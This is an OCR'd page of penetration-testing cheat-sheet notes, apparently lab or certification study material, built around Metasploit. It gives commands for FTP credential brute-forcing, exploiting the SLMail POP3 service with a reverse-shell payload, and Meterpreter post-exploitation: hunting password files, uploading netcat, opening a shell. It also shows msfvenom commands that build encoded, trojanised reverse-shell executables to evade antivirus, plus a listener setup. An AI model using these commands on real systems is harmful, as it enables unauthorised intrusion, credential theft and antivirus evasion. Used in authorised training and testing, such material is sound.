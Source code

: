 ### FTP Brute Force

```text
$ msfconsole -q

msf> search type:auxiliary login
msf> use auxiliary/scanner/ftp/ftp_login
msf auxiliary(ftp_login) > show options
msf auxiliary(ftp_login) > set PASS_FILE /root/password-file.txt
msf auxiliary(ftp_login) > set USERPASS_FILE /root/users.txt
msf > use auxiliary/scanner/smb/smb_version
msf auxiliary(smb_version) > services -p 443 --rhosts

msf > search pop3
msf > use exploit/windows/pop3/seattlelab_pass
msf exploit(seattlelab_pass) > show payloads
msf exploit(seattlelab_pass) > set PAYLOAD windows/shell_reverse_tcp
msf > use exploit/windows/pop3/seattlelab_pass
msf exploit(seattlelab_pass) > set RHOST 10.11.1.35
msf exploit(seattlelab_pass) > exploit

meterpreter > sysinfo
meterpreter > getuid
meterpreter > search -f *pass*.txt
meterpreter > mkdir c:\\temp
meterpreter > upload /usr/share/windows-binaries/nc.exe c:\\temp
meterpreter > download c:\\Windows\\system32\\calc.exe /tmp/calc.exe
meterpreter > shell

$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe
-o shell_reverse.exe
$ file shell_reverse.exe

$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe
-e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe
-e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o
shell_reverse_msf_encoded_embedded.exe

$ msfvenom -p windows/meterpreter/reverse_https LHOST=10.11.0.5 LPORT=443
-f exe -o met_https_reverse.exe

msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/shell_reverse_tcp
msf exploit(handler) > set LHOST 10.11.0.5
msf exploit(handler) > set LPORT 4444
msf exploit(handler) > set AutoRunScript migrate -f
msf exploit(handler) > run -jz
```

### Building Custom MSF Modules
